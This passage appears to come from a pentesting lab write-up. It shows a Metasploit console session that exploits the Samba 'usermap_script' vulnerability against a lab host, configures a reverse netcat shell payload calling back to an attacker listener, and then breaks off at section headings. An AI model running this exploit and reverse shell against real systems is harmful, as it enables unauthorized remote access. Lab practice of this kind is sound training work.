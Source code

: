 ```BASH
[msf](Jobs:0 Agents:0) >> use exploit/multi/samba/usermap_script
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
[msf](Jobs:0 Agents:0) exploit(multi/samba/usermap_script) >> options

Module options (exploit/multi/samba/usermap_script):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/
                                       using-metasploit.html
   RPORT    139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  5.22.212.220     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

[msf](Jobs:0 Agents:0) exploit(multi/samba/usermap_script) >> set rhosts 10.129.219.182
rhosts => 10.129.219.182
[msf](Jobs:0 Agents:0) exploit(multi/samba/usermap_script) >> exploit

[*] Started reverse TCP handler on 5.22.212.220:4444 
[*] Exploit completed, but no session was created.
[msf](Jobs:0 Agents:0) exploit(multi/samba/usermap_script) >> set lhost 10.10.14.112
lhost => 10.10.14.112
```
## 3. **Delivery

## 4. **Exploitation

For the first #Metasploit :
